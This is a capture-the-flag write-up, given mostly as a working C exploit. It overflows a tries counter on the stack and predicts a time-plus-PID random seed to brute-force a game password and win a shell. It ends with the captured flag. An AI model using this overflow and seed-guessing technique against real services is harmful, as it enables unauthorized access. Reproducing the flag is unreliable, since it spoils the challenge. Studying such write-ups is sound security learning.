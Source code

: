 
Hello,

This writeup will be quick and dirty. The idea behind the challenge is about guessing a random generated password to win the game and get a shell. You lose the game after 3 bad tries.

I spent much time reversing the binary, to figure out how the password is generated, because this is the first time I deal with a  _Position Independent Executable._

Well, to solve the task all what we need is to guess the value used to seed the random number generator. Like this we can determine the generated password.

The seed is calculated based on current time stamp and current process id. We don't know the pid. We have to bruteforce it. But we have only 3 tries !. Easy ! just overflow the "tries" variable buffer in stack to get infinite tries. That's all !

Here is the exploit. Don't ask me why I wrote it in C !

```c
#include <time.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <netdb.h>
#include <string.h>
#include <errno.h>
#include <arpa/inet.h>

void rnds(char * s, unsigned l, unsigned int ts, unsigned int pid) {
srand(ts + pid);
int i;
for (i = 0; i < l; ++i) {
s[i] = rand() % 94 + 33;
}
s[i] = '\n';
s[i + 1] = '\0';
}

int main(void) {
int sockfd = 0, n = 0;
char buf[1024];
struct sockaddr_in serv_addr;

memset(buf, '\0', sizeof(buf));
if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
printf("\n Error : Could not create socket \n");
return 1;
}
memset( & serv_addr, '0', sizeof(serv_addr));

serv_addr.sin_family = AF_INET;
serv_addr.sin_port = htons(9002);

if (inet_pton(AF_INET, "91.231.84.36", & serv_addr.sin_addr) <= 0) {
printf("\n inet_pton error occured\n");
return 1;
}

if (connect(sockfd, (struct sockaddr * ) & serv_addr, sizeof(serv_addr)) < 0) {
printf("\n Error : Connect Failed \n");
return 1;
}

//Receive a reply from the server
if (recv(sockfd, buf, 1024, 0) < 0) {
printf("\n Error : recv Failed \n");
return 1;

}

puts(buf);
char * overflow_tries = "AAAAAAAAAAAAAAAAAAAAAAAAAAAA\n";

if (send(sockfd, overflow_tries, strlen(overflow_tries), 0) < 0) {
printf("\n Error : send Failed \n");
return 1;
}

int pid;

unsigned int ts = time(0);
//unsigned int pid = getpid();

for (pid = 32000; pid < 40000; pid++) {

char guess[6];

rnds(guess, 4, ts, pid);
printf("[+] Pid %d", pid);
printf("[+] Trying %s", guess);

memset(buf, '\0', sizeof(buf));
if (recv(sockfd, buf, 1024, 0) < 0) {
printf("\n Error : recv Failed \n");
return 1;
}

if (send(sockfd, guess, strlen(guess), 0) < 0) {
printf("\n Error : send Failed \n");
return 1;
}

puts(buf);

}

return 0;
}

```
After few seconds I got the flag. **h4ck1t{S0M3tiM35_n33D_b2UtEf02c3}**
